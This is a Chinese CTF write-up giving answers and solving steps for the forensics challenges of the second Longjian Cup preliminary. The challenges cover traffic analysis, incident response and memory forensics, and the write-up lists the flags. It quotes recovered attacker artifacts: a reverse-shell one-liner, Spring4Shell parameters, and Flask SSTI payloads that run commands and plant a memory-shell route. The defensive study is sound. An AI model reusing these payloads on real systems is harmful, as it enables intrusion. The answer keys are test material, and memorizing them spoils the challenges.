






第二届“陇剑杯”网络安全大赛线上预选赛
本次大赛延续首届“以防为主”的品牌特色，聚焦人工智能技术在安全防御场景中的应用，打造全场景网络安全防御演练场，吸引了全国 31 个省市区的 1681 支队伍、6724 人报名参赛。通过线上选拔，200 支队伍进入半决赛，120 支队伍进入决赛。
hard_web
hard_web_1
服务器开放了哪些端口，请按照端口大小顺序提交答案，并以英文逗号隔开（如服务器开放了80 81 82 83端口，则答案为80,81,82,83）
ip.dst == 192.168.162.188 && tcp.connection.synack
tcp.flags.ack == 1 and tcp.flags.syn ==1
FLAG：80,888,8888
hard_web_2
服务器中根目录下的flag值是多少？
哥斯拉 JSP 流量分析。强特征：在 Cookie的结尾处有分号。
解密最后一个 HTTP 响应数据包。
方法 1：使用 Cyberchef

FLAG：flag{9236b29d-5488-41e6-a04b-53b0d8276542}
hard_web_3
该webshell的连接密码是多少？
String xc="748007e861908c03"
对密钥进行 MD5 解密即可。
#!/usr/bin/env python3
import hashlib
import itertools
import string
target = "748007e861908c03"
chars = string.printable.strip() # 所有可打印字符
print("[+] MD5 Collision Hunter")
print(f"[+] Target: {target}")
print("[+] Pattern: 1****y")
print(f"[+] Charset: {len(chars)} characters")
for combo in itertools.product(chars, repeat=4):
s = f"1{''.join(combo)}y"
h = hashlib.md5(s.encode()).hexdigest()[:16]
if h == target:
print(f"\n[!] BINGO: {s}")
print(f"[!] Full MD5: {hashlib.md5(s.encode()).hexdigest()}")
exit(0)
print("\n[-] No collision found")
FLAG：14mk3y
server save
解压密码为c77ad47ba4c85fae66f08ec12e0085dd
server save_1
黑客是使用什么漏洞来拿下root权限的。格式为：CVE-2020-114514
class.module.classLoader.resources.context.parent.pipeline.first.pattern=
FLAG：CVE-2022-22965
server save_2
黑客反弹shell的ip和端口是什么，格式为：10.0.0.1:4444
bbbb.sh文件
/bin/sh -i >& /dev/tcp/192.168.43.128/2333 0>&1
FLAG：192.168.43.128:2333
server save_3
黑客的病毒名称是什么？ 格式为：filename
.bash_history
/home/guests/main
FLAG：main
server save_4
黑客的病毒运行后创建了什么用户？请将回答用户名与密码：username:password
可以结合云沙箱
FLAG：ll:123456
server save_5
服务器在被入侵时外网ip是多少? 格式为：10.10.0.1
/home/guests/.log.txt
FLAG：172.105.202.239
server save_6
病毒运行后释放了什么文件？格式：文件1,文件2
FLAG：lolMiner ,mine_doge.sh
server save_7
矿池地址是什么？ 格式：domain:1234
mine_doge.sh
FLAG：doge.millpools.cc:5567
server save_8
黑客的钱包地址是多少？格式：xx:xxxxxxxx
FLAG：DOGE:DRXz1q6ys8Ao2KnPbtb7jQhPjDSqtwmNN9.lolMinerWorker
WS
Wireshark1_1
被入侵主机的IP是？
FLAG：192.168.246.28
Wireshark1_2
被入侵主机的口令是？
FLAG：Youcannevergetthis
Wireshark1_3
用户目录下第二个文件夹的名称是？
FLAG：Downloads
Wireshark1_4
/etc/passwd中倒数第二个用户的用户名是？
FLAG：mysql
IR
本题附件见于平台公告的 IR.zip，解压密码为f0b1ba11478343f404666c355919de3f
你是公司的一名安全运营工程师，今日接到外部监管部门通报，你公司网络出口存在请求挖矿域名的行为。需要立即整改。经过与网络组配合，你们定位到了请求挖矿域名的内网 IP 是 10.221.36.21。查询 CMDB 后得知该 IP 运行了公司的工时系统。（虚拟机账号密码为：root/IncidentResponsePasswd）
IncidentResponse_1
挖矿程序所在路径是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）
echo -n '/etc/redis/redis-server'|md5sum|cut -d ' ' -f1
FLAG：6f72038a870f05cbf923633066e48881
IncidentResponse_2
挖矿程序连接的矿池域名是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）
在 redis.conf 文件中
echo -n 'donate.v2.xmrig.com'|md5sum|cut -d ' ' -f1
FLAG：3fca20bb92d0ed67714e68704a0a4503
IncidentResponse_3
攻击者入侵服务器的利用的方法是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案） 题目提示：答案 md5 值前两位为 3e
“工时系统”的日志文件 /home/app/nohup.log
echo -n 'shirodeserialization'|md5sum|cut -d ' ' -f1
FLAG：3ee726cb32f87a15d22fe55fa04c4dcd
IncidentResponse_4
攻击者的IP是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）
echo -n '81.70.166.3'|md5sum|cut -d ' ' -f1
FLAG：b2c5af8ce08753894540331e5a947d35
IncidentResponse_5
攻击者发起攻击时使用的User-Agent是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）
nginx 日志 access.log
echo -n 'strings'|md5sum|cut -d ' ' -f1
FLAG：6ba8458f11f4044cce7a621c085bb3c6
IncidentResponse_6
攻击者使用了两种权限维持手段，相应的配置文件路径是？(md5加密后以a开头)（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）
echo -n '/root/.ssh/authorized_keys'|md5sum|cut -d ' ' -f1
FLAG：a1fa1b5aeb1f97340032971c342c4258
IncidentResponse_7
攻击者使用了两种权限维持手段，相应的配置文件路径是？(md5加密后以b开头)（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）
echo -n '/lib/systemd/system/redis.service'|md5sum|cut -d ' ' -f1
FLAG：b2c5af8ce08753894540331e5a947d35
SSW
http and ip.addr ==192.168.77.135 and ip.addr ==192.168.77.155
SmallSword_1
连接蚁剑的正确密码是______________?（答案示例：123asd）
FLAG：6ea280898e404bfabd0ebb702327b18f
SmallSword_2
攻击者留存的值是______________?(答案示例：d1c3f0d3-68bb-4d85-a337-fb97cf99ee2e)
第二次向 hacker.txt 写内容
FLAG：ad6269b7-3ce2-4ae8-b97f-f259515e7a91
SmallSword_3
攻击者下载到的flag是______________?(答案示例：flag3{uuid})
导出 exe 文件，运行后获取 jpg 图片，修复文件后得 flag。
FLAG：flag3{8f0dffac-5801-44a9-bd49-e66192ce4f57}
EW
ez_web_1
服务器自带的后门文件名是什么？（含文件后缀）
FLAG：ViewMore.php
ez_web_2
服务器内网IP是多少？
FLAG：192.168.101.132
ez_web_3
攻击者往服务器中写入的key是什么？
解压密码为7e03864b0db7e6f9
FLAG：7d9ddff2-2d67-4eba-9e48-b91c26c42337
BF
本题附件见于平台公告的 BF.zip，解压密码为 4cf611fce4a2fec305e54c2766b7c860
题目给出了两个文件，分别是磁盘镜像文件baby_forensics.vmdk、内存文件baby_forensics.raw。
baby_forensics_1
磁盘中的key是多少？
key.txt E96<6J:Da6g_b_f_gd75a3d4ch4heg4bab66ad5d进行 ROT47 解密。

FLAG：2e80307085fd2b5c49c968c323ee25d5
baby_forensics_2
电脑中正在运行的计算器的运行结果是多少？
FLAG：7598632541
baby_forensics_3
该内存文件中存在的flag值是多少？
一般便签的数据保存目录是在 C:\Users\当前的账户用户名\AppData\Roaming\Microsoft\Sticky Notes\StickyNotes.snt 文件，需将原文件删除，并将我们的文件重命名。
U2FsdGVkX195MCsw0ANs6/Vkjibq89YlmnDdY/dCNKRkixvAP6+B5ImXr2VIqBSp
94qfIcjQhDxPgr9G4u++pA==

qwerasdf
使用 CryptoJS 实现的在线网站解密，如https://tool.oschina.net/encrypt/
或者使用 openssl 解密
echo "U2FsdGVkX195MCsw0ANs6/Vkjibq89YlmnDdY/dCNKRkixvAP6+B5ImXr2VIqBSp94qfIcjQhDxPgr9G4u++pA==" | openssl enc -d -aes-256-cbc -md md5 -base64 -pass pass:qwerasdf
FLAG：flag{ad9bca48-c7b0-4bd6-b6fb-aef90090bb98}
TP
tcpdump_1
攻击者通过暴力破解进入了某Wiki 文档，请给出登录的用户名与密码，以:拼接，比如admin:admin
http && !tcp contains "用户名或密码错误"
FLAG：TMjpxFGQwD:123457
tcpdump_2
攻击者发现软件存在越权漏洞，请给出攻击者越权使用的cookie的内容的md5值。（32位小写）
userid
accessToken=f412d3a0378d42439ee016b06ef3330c; zyplayertoken=f412d3a0378d42439ee016b06ef3330cQzw=; userid=1
FLAG：383c74db4e32513daaa1eeb1726d7255
tcpdump_3
攻击使用jdbc漏洞读取了应用配置文件，给出配置中的数据库账号密码，以:拼接，比如root:123456

FLAG：zyplayer:1234567
tcpdump_4
攻击者又使用了CVE漏洞攻击应用，执行系统命令，请给出此CVE编号以及远程EXP的文件名，使用:拼接，比如CVE-2020-19817:exp.so

FLAG：CVE-2022-21724:custom.dtd.xml
tcpdump_5
给出攻击者获取系统权限后，下载的工具的名称，比如nmap
过滤反弹 shell 的流量
ip.addr==116.62.63.234 && tcp.port == 9999

FLAG：fscan
HD
hacked_1
admIn用户的密码是什么？
AES 解密，Cyberchef
FLAG：flag{WelC0m5_TO_H3re}
hacked_2
app.config['SECRET_KEY']值为多少？
FLAG：ssti_flask_hsfvaldb
hacked_3
flask网站由哪个用户启动？
Flask session 解密
https://github.com/noraj/flask-session-cookie-manager
python .\flask_session_cookie_manager3.py decode -s "ssti_flask_hsfvaldb" -c ".eJwdx1EKwyAMANCrDEGiPz1Ar1KGZBi7gBpplH2Idy_d-3vTDKWrYiGzm2k5vZRUWeo2WsRObkLKeMKeuekoB4RwZvlg1hDg_S917lSeOhAFf0CTRvXp7ytYGPx2EUbnl7drWqqRk11m3cGmKw0.YpIQcw.J5vs8t8bAr0xDIxF6EqUAH2kkLE"
{'username': "{%if session.update({'flag':lipsum['__globals__']['__getitem__']('os')['popen']('whoami').read()})%}{%endif%}"}
python .\flask_session_cookie_manager3.py decode -s "ssti_flask_hsfvaldb" -c ".eJwdylsKAyEMQNGtFEGiUGYBs5VpkRQz04AvjNIPce-t_TyXO9QZ8FK7quQfSd1VF6oJI_3S0HzehEQ4p60Xj43MgPXDHrhIjwc4d4X8wiDOwfNPatwoLhrIAvaAkgulxc87Y2SwWyX0xk6r59CUPJ96qvkFHeUvmg.YpIQkg.65xf8l2g9fXAImkfyihId46KkY4"
{'flag': 'red\n', 'username': "{%if session.update({'flag':lipsum['__globals__']['__getitem__']('os')['popen']('whoami').read()})%}{%endif%}"}
FLAG：red
hacked_4
攻击者写入的内存马的路由名叫什么？（答案里不需要加/）
python .\flask_session_cookie_manager3.py decode -s "ssti_flask_hsfvaldb" -c ".eJx1jUsOgkAQBa-Cs2lJCEbdcQI9A0w6DdMaYjPgfAwJmbsLC1fq7r2kKrWo6NlZGlhValmiE7yNrkS8y9iSeMQaENvYS-jt-kDXwC8S0PtG0TSVZAxulovCezhcreEZigw-Q2hoDWUVXFhk3GXH0xnyRhULoONnZB-wCzP6QN0Dqt_9b1AXsMb_8F10jm3AjdApT0mlNx2uUsY.YpIRHQ.qS_PWmxt4i4cjHYBzDz-rUdTZns"
{'username': '{{url_for.__globals__[\'__builtins__\'][\'eval\']("app.add_url_rule(\'/Index\', \'Index\', lambda :\'Hello! 123\')",{\'_request_ctx_stack\':url_for.__globals__[\'_request_ctx_stack\'],\'app\':url_for.__globals__[\'current_app\']})}}'}
FLAG：Index